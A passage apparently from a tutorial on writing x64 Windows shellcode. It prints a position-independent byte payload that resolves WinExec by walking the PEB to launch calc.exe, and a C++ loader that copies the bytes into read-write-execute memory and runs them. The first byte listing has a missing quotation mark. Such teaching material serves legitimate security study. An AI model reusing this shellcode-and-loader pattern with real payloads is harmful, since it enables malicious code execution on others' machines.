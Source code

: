 **here's what it looks like with just the machine code extracted:**

> "\x48\x83\xec\x28\x48\x83\xe4\xf0\x48\x31\xc9\x65\x48\x8b\x41\x60"
\x48\x8b\x40\x18\x48\x8b\x70\x10\x48\x8b\x36\x48\x8b\x36\x48\x8b"
"\x5e\x30\x49\x89\xd8\x8b\x5b\x3c\x4c\x01\xc3\x8b\x93\x88\x00\x00"
"\x00\x4c\x01\xc2\x44\x8b\x52\x14\x4d\x31\xdb\x44\x8b\x5a\x20\x4d"
"\x01\xc3\x4c\x89\xd1\x48\xb8\x57\x69\x6e\x45\x78\x65\x63\x00\x50"
"\x48\x89\xe0\x48\x83\xc4\x08\xeb\x00\x67\xe3\x1a\x31\xdb\x41\x8b"
"\x5c\x8b\x04\x4c\x01\xc3\x48\xff\xc9\x4c\x8b\x08\x4c\x39\x0b\x74"
"\x02\x75\xe6\x51\xeb\x01\xcc\x41\x5f\x78\x00\x4c\x89\xf9\x4d\x31"
"\xdb\x44\x8b\x5a\x24\x4d\x01\xc3\x48\xff\xc1\x66\x45\x8b\x2c\x4b"
"\x4d\x31\xdb\x44\x8b\x5a\x1c\x4d\x01\xc3\x43\x8b\x44\xab\x04\x4c"
"\x01\xc0\x50\x78\x00\x41\x5f\xb8\x00\x00\x00\x00\x50\x48\xb8\x63"
"\x61\x6c\x63\x2e\x65\x78\x65\x50\x48\x89\xe1\xba\x01\x00\x00\x00\x48\x83\xec\x30\x41\xff\xd7";

Now, the final piece to all of this.  Let's add the x64 shellcode to a custom C++ program and execute it!

```c++
#include <windows.h>
#include <iostream>

unsigned char shellcode[] =
"\x48\x83\xec\x28\x48\x83\xe4\xf0\x48\x31\xc9\x65\x48\x8b\x41\x60"
"\x48\x8b\x40\x18\x48\x8b\x70\x10\x48\x8b\x36\x48\x8b\x36\x48\x8b"
"\x5e\x30\x49\x89\xd8\x8b\x5b\x3c\x4c\x01\xc3\x8b\x93\x88\x00\x00"
"\x00\x4c\x01\xc2\x44\x8b\x52\x14\x4d\x31\xdb\x44\x8b\x5a\x20\x4d"
"\x01\xc3\x4c\x89\xd1\x48\xb8\x57\x69\x6e\x45\x78\x65\x63\x00\x50"
"\x48\x89\xe0\x48\x83\xc4\x08\xeb\x00\x67\xe3\x1a\x31\xdb\x41\x8b"
"\x5c\x8b\x04\x4c\x01\xc3\x48\xff\xc9\x4c\x8b\x08\x4c\x39\x0b\x74"
"\x02\x75\xe6\x51\xeb\x01\xcc\x41\x5f\x78\x00\x4c\x89\xf9\x4d\x31"
"\xdb\x44\x8b\x5a\x24\x4d\x01\xc3\x48\xff\xc1\x66\x45\x8b\x2c\x4b"
"\x4d\x31\xdb\x44\x8b\x5a\x1c\x4d\x01\xc3\x43\x8b\x44\xab\x04\x4c"
"\x01\xc0\x50\x78\x00\x41\x5f\xb8\x00\x00\x00\x00\x50\x48\xb8\x63"
"\x61\x6c\x63\x2e\x65\x78\x65\x50\x48\x89\xe1\xba\x01\x00\x00\x00"
"\x48\x83\xec\x30\x41\xff\xd7";

int main() {
    
    void* exec_mem = VirtualAlloc(0, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    if (exec_mem == nullptr) {
        std::cerr << "Memory allocation failed\n";
        return -1;
    }
    memcpy(exec_mem, shellcode, sizeof(shellcode));
    auto shellcode_func = reinterpret_cast<void(*)()>(exec_mem);
    shellcode_func();
    VirtualFree(exec_mem, 0, MEM_RELEASE);
    return 0;
}
```
